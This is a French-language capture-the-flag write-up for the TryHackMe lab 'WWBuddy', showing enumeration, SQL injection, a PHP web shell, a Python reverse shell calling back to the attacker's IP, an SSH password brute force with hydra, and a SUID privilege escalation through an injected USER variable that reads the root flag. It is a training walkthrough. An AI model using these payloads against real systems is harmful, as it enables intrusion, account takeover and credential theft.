

# WWBuddy #

## Task 1 WWBuddy ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo  sh -c "echo '10.10.28.224 wwbuddy.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A wwwbuddy.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-07 08:30 CEST
Nmap scan report for wwbuddy.thm (10.10.28.224)
Host is up (0.080s latency).
rDNS record for 10.10.28.224: wwbuddy.thm
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 66:75:21:b4:93:4a:a5:a7:df:f4:01:80:19:cf:ff:ad (RSA)
|   256 a6:dd:30:3b:e4:96:ba:ab:5f:04:3b:9e:9e:92:b7:c0 (ECDSA)
|_  256 04:22:f0:d2:b0:34:45:d4:e5:4d:ad:a2:7d:cd:00:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Login
|_Requested resource was http://wwbuddy.thm/login/
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   34.63 ms  10.9.0.1
2   111.30 ms WWWBuddy.thm (10.10.28.224)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.35 seconds

```

On repère plusieurs services :   
Le service SSH sur le port 22.    
Le service HTTP sur le port 80.    


Sur la page principale on tombe sur page d'identification.     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://wwbuddy.thm -w /usr/share/dirb/wordlists/common.txt -q
/.htaccess            (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/admin                (Status: 301) [Size: 310] [--> http://wwbuddy.thm/admin/]
/api                  (Status: 301) [Size: 308] [--> http://wwbuddy.thm/api/]  
/change               (Status: 301) [Size: 311] [--> http://wwbuddy.thm/change/]
/images               (Status: 301) [Size: 311] [--> http://wwbuddy.thm/images/]
/index.php            (Status: 302) [Size: 7740] [--> /login]                   
/js                   (Status: 301) [Size: 307] [--> http://wwbuddy.thm/js/]    
/login                (Status: 301) [Size: 310] [--> http://wwbuddy.thm/login/] 
/profile              (Status: 301) [Size: 312] [--> http://wwbuddy.thm/profile/]
/register             (Status: 301) [Size: 313] [--> http://wwbuddy.thm/register/]
/server-status        (Status: 403) [Size: 276]                                   
/styles               (Status: 301) [Size: 311] [--> http://wwbuddy.thm/styles/]  
```

Avec gobuster on trouver un répertoire admin.   

  

Sur la page admin on a un message qui nous dit que l'on a pas les permissions.    

  

On crée un nouveau utilisateur. 

  

On modifie les informations de l'utilisateur en injecter une injection SQL.   

  

On change de mot de passe.   

Maintenant on peut se connecter avec le nom WWBuddy et notre mot de passe.    

Ceci maintenant fonctionne avec tout les utilisateurs. 

Dans l'interface de WWBuddy on trouve 2 autre nom Henry et Roberto.   

  

Dans l'interface de Henry, on comprend que des employés on comme mot de passe leur date de naissance.   
De même Henry semble pourvoir changer les mots de passe il doit être admin.     

**Website flag**

 

Dans le code source de la page admin ou trouve le flag.   

La réponse est : THM{d0nt_try_4nyth1ng_funny}   


On se connect à l'utilisateur on change le son nom avec :
```text
<?php system($_GET["cmd"]) ?>
```

On va dans la page admin pour l'incident soit reporté.  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour se connecter au reverse shell.   


On encode le reverse shell.   

On se connect on compte d'henry.   

On lui passe le shell dans la barre d'adresse.   

```text
wwbuddy.thm/admin/?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.9.228.66%22%2C1234))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D)%3B%27
```

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.97.202] 35754
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls /home
jenny
roberto
wwbuddy

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@wwbuddy:/var/www/html/admin$ 

```

On voit que nouveau nom qui est jenny.   
On sait que le mot de passe est la date de son anniversaire.   

```bash
www-data@wwbuddy:/var/www/html/admin$ cd /var/log
cd /var/log
www-data@wwbuddy:/var/log$ ls
ls
alternatives.log  cloud-init-output.log  journal    syslog
apache2		  cloud-init.log	 kern.log   tallylog
apt		  dist-upgrade		 landscape  unattended-upgrades
auth.log	  dpkg.log		 lastlog    wtmp
bootstrap.log	  faillog		 lxd
btmp		  installer		 mysql

cd mysql
www-data@wwbuddy:/var/log/mysql$ ls
ls
error.log  general.log

www-data@wwbuddy:/var/log/mysql$ cat general.log | grep password
cat general.log | grep password
2020-07-25T14:41:25.299556Z	    8 Connect	Access denied for user 'root'@'localhost' (using password: YES)
2020-07-25T14:41:25.309467Z	    9 Connect	Access denied for user 'root'@'localhost' (using password: YES)
2020-07-25T14:41:25.317916Z	   10 Connect	Access denied for user 'root'@'localhost' (using password: NO)
2020-07-25T15:01:40.143115Z	   12 Prepare	SELECT id, username, password FROM users WHERE username = ?
2020-07-25T15:01:40.143760Z	   12 Execute	SELECT id, username, password FROM users WHERE username = 'RobertoyVnocsXsf%X68wf'
2020-07-25T15:02:00.018975Z	   13 Prepare	SELECT id, username, password FROM users WHERE username = ?
2020-07-25T15:02:00.019056Z	   13 Execute	SELECT id, username, password FROM users WHERE username = 'Roberto'
```

On remarque qu'il a des logs mysql.  
On regarde dedans et on trouve le mot de passe de Roberto qui est : yVnocsXsf%X68wf    

**User flag**

```bash
www-data@wwbuddy:/var/log/mysql$ su roberto
su roberto
Password: yVnocsXsf%X68wf      


$ id
id
uid=1001(roberto) gid=1001(roberto) groups=1001(roberto),200(developer)
$ cd /home/roberto
cd /home/roberto
$ ls
ls
importante.txt
$ cat importante.txt
cat importante.txt
A Jenny vai ficar muito feliz quando ela descobrir que foi contratada :DD

Não esquecer que semana que vem ela faz 26 anos, quando ela ver o presente que eu comprei pra ela, talvez ela até anima de ir em um encontro comigo.


THM{g4d0_d+_kkkk}

```

On se connecte sur le compte de roberto et dans le répertoire roberto on trouve un fichier importante.txt.  
On le lit et on trouve un message et notre flag.  
La flag est : THM{g4d0_d+_kkkk}    

Le message est en portugais, il dit que Jenny aura 26 ans la semaine prochaine et qu'elle va être embauchée.  

```bash
$ stat importante.txt
stat importante.txt
  File: importante.txt
  Size: 246       	Blocks: 8          IO Block: 4096   regular file
Device: ca02h/51714d	Inode: 402577      Links: 1
Access: (0664/-rw-rw-r--)  Uid: ( 1001/ roberto)   Gid: ( 1001/ roberto)
Access: 2021-09-07 09:06:27.136000000 +0000
Modify: 2020-07-27 21:25:48.544379536 +0000
Change: 2020-07-27 21:25:48.544379536 +0000
 Birth: -
```

On regarde depuis quand le fichier a été modifié.
Il a été modifié le 27-07-2020.  

2020-26 = 1994 donc l'année de naissance est 1994.
Quand on regarde le calendrier 2020 le 27 tombe un lundi et le prochain lundi est le 3 août.   
Donc in sait que sont anniversaire est ente 3 août 1994 et le 7 août 1994.   

Générons un fichier qui contient le date au format américain mois jour année.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat date.txt 
08/03/1994
08/04/1994
08/05/1994
08/06/1994
08/07/1994
```

On génère les dates.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l jenny -P date.txt ssh://wwbuddy.thm
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-07 11:23:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 5 tasks per 1 server, overall 5 tasks, 5 login tries (l:1/p:5), ~1 try per task
[DATA] attacking ssh://wwbuddy.thm:22/
[22][ssh] host: wwbuddy.thm   login: jenny   password: 08/03/1994
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 202
```

On brute force les dates avec hydra et on trouve le mot de passe qui est 08/03/1994.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh jenny@wwbuddy.thm
The authenticity of host 'wwbuddy.thm (10.10.97.202)' can't be established.
ECDSA key fingerprint is SHA256:FG9xKodlZK8L0IQihDsNh5y6ITtj+eQS0Dct3t1KDy4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'wwbuddy.thm,10.10.97.202' (ECDSA) to the list of known hosts.
jenny@wwbuddy.thm's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Sep  7 09:25:16 UTC 2021

  System load:  0.0               Processes:           104
  Usage of /:   44.1% of 9.78GB   Users logged in:     0
  Memory usage: 73%               IP address for eth0: 10.10.97.202
  Swap usage:   0%


53 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

$ find / -perm -4000 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/authenticate
/bin/fusermount
/bin/ping
/bin/mount
/bin/umount
/bin/su
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device

```

On se connect sur compte de jenny on trouve un fichier non commun qui est authenticate.    

```bash
$ id
uid=1002(jenny) gid=1002(jenny) groups=1002(jenny)
$ ./authenticate
Group updated
$ id
uid=1002(jenny) gid=200(developer) groups=200(developer),1002(jenny)
```

Quand on exécute authenticate il nous ajoute dans le groupe developer.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 4444 > authenticate
-----------------------
$ nc 10.9.228.66 4444 < authenticate
```

On transfer le fichier pour analyse. 

```cpp
undefined8 main(void)

{
  __uid_t __uid;
  int iVar1;
  char *__src;
  long in_FS_OFFSET;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined4 local_20;
  undefined local_1c;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __uid = getuid();
  if ((int)__uid < 1000) {
    puts("You need to be a real user to be authenticated.");
  }
  else {
    iVar1 = system("groups | grep developer");
    if (iVar1 == 0) {
      puts("You are already a developer.");
    }
    else {
      __src = getenv("USER");
      __uid = getuid();
      setuid(0);
      local_48 = 0x20646f6d72657375;
      local_40 = 0x6c6576656420472d;
      local_38 = 0x207265706f;
      local_30 = 0;
      local_28 = 0;
      local_20 = 0;
      local_1c = 0;
      strncat((char *)&local_48,__src,0x14);
      system((char *)&local_48);
      puts("Group updated");
      setuid(__uid);
      system("newgrp developer");
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

```cpp
 if ((int)__uid < 1000) {
    puts("You need to be a real user to be authenticated.");
  }
```
Le programme récupère l'id du processus si est elle inferieur à 1000 c'est pas bon. 

```cpp
 iVar1 = system("groups | grep developer");
    if (iVar1 == 0) {
      puts("You are already a developer.");
    }
```
Il y a une vérifcation sur on n'appartient pas au group developer.  

```cpp
      __src = getenv("USER");
```
Il récupère la variable d'environnemnt USER. 

```cpp
      setuid(0);
```
Il passe en setuid 0 c'est dir avec les droits root.    

```cpp
      strncat((char *)&local_48,__src,0x14);
      system((char *)&local_48);
```
Il récupère le nom d'utilisateur dans la variable d'environnement, il y pas de vérification si on lui passe une commande.    

```bash
export USER=';cat /root/root.txt;'
```

Si vous avez déja exécuter authentiface redémarrer session.  

```bash
$ ./authenticate
Usage: usermod [options] LOGIN

Options:
  -c, --comment COMMENT         new value of the GECOS field
  -d, --home HOME_DIR           new home directory for the user account
  -e, --expiredate EXPIRE_DATE  set account expiration date to EXPIRE_DATE
  -f, --inactive INACTIVE       set password inactive after expiration
                                to INACTIVE
  -g, --gid GROUP               force use GROUP as new primary group
  -G, --groups GROUPS           new list of supplementary GROUPS
  -a, --append                  append the user to the supplemental GROUPS
                                mentioned by the -G option without removing
                                him/her from other groups
  -h, --help                    display this help message and exit
  -l, --login NEW_LOGIN         new value of the login name
  -L, --lock                    lock the user account
  -m, --move-home               move contents of the home directory to the
                                new location (use only with -d)
  -o, --non-unique              allow using duplicate (non-unique) UID
  -p, --password PASSWORD       use encrypted password for the new password
  -R, --root CHROOT_DIR         directory to chroot into
  -s, --shell SHELL             new login shell for the user account
  -u, --uid UID                 new UID for the user account
  -U, --unlock                  unlock the user account
  -v, --add-subuids FIRST-LAST  add range of subordinate uids
  -V, --del-subuids FIRST-LAST  remove range of subordinate uids
  -w, --add-subgids FIRST-LAST  add range of subordinate gids
  -W, --del-subgids FIRST-LAST  remove range of subordinate gids
  -Z, --selinux-user SEUSER     new SELinux user mapping for the user account

THM{ch4ng3_th3_3nv1r0nm3nt}
```

On dit de lire le fichier root.txt dans le répertoire root.   
On exécute authenticate et on a notre flag.   

La réponse est : THM{ch4ng3_th3_3nv1r0nm3nt}    